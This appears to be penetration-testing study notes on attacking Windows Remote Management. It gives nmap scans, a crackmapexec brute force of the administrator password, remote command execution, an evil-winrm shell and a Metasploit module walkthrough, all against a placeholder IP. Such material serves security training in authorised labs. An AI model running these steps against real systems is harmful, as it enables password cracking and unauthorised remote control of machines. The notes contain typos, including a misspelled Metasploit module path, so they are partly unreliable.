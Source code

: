 <h1>Exploiting WinRM</h1>
<hr>

<ul>
  <li>
    Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(s).
  </li>
  <li>
    Microsoft implemented WinRM in to Windows in order to make life easier for system administrator.
  </li>
  <li>
    WinRM is typically used in the following ways:
    <ul>
    <li>
      Remotely access and interact with awindows host on a local network.
    </li>
  <li>Remotely access and execute commands on windows systems</li>
  <li>Manage and configure Windows system remotely</li>
    </ul>
  </li>
  <li>WinRM typically uses TCP port 5985 and 5986 (HTTPS). </li>
  <li>WinRM implements access control and security for communication between systems through various forms of authentication.</li>
  <li>We can utillize a utility called "crackmapexec" to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.</li>
  <li>We can also utilize a ruby script called "evil-winrm" to obtain a command shell session on the target system.</li>
</ul>
<hr>
<h2>Pratically</h2>
 <ol>
   <li>nmap -sV {ip}</li>
   <li>nmap -sV -p 5985{ip}</li>
   <li>crackmapexec</li>
   <li>crackmapexec winrm {ip} -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt</li><li>nmap -sV {ip}</li>
<span>Now after bruteforce you have passwrod </span>
   <li>crackmapexec winrm {ip} -u administrator -p password -x "whoami"</li>
   <li>crackmapexec winrm {ip} -u administrator -p password -x "systeminfo"</li>
   <span>Get cmd</span>
   <li>evil-winrm.rb -u administrator -p 'password' -i {ip}</li>
 </ol>
 <hr>
 
 ## Using Metasploit

 <ol>
   <li>service postgresql start && msfconsole</li>
   <li>search winrm_script</li>
   <li>use exploit/windows/windrm/winrm_script_exec</li>
   <li>show options</li>
   <li>set RHOSTS {ip}</li>
   <li>set FORCE_VBS true</li>
   <li>set USERNAME administrator</li>
   <li>set PASSWORD password</li>
   <li>run</li>
 </ol>
